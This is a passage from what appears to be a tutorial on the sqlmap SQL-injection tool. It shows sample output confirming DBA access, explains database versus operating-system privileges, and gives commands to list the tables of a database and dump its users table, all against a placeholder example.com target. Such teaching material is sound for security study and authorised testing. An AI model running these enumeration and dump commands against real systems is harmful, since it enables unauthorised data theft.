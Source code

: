     current database: 'testdb'
    [13:30:58] [INFO] testing if current user is DBA
    [13:30:58] [INFO] fetching current user
    current user is DBA: True
    [13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

    [*] ending @ 13:30:58 /2020-09-17/

From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name is `root`, while the current database name is `testdb`.

Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

### Table Enumeration

In most common scenarios, after finding the current database name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with -D testdb, is as follows:

`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`

    ...SNIP...
    [13:59:24] [INFO] fetching tables for database: 'testdb'
    Database: testdb
    [4 tables]
    +---------------+
    | member        |
    | data          |
    | international |
    | users         |
    +---------------+

After spotting the table name of interest, retrieval of its content can be done by using the `--dump` option and specifying the table name with `-T users`, as follows:

`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb`

    ...SNIP...
    Database: testdb

    Table: users
    [4 entries]
    +----+--------+------------+
    | id | name   | surname    |
    +----+--------+------------+
    | 1  | luther | blisset    |
    | 2  | fluffy | bunny      |
    | 3  | wu     | ming       |
    | 4  | NULL   | nameisnull |
    +----+--------+------------+
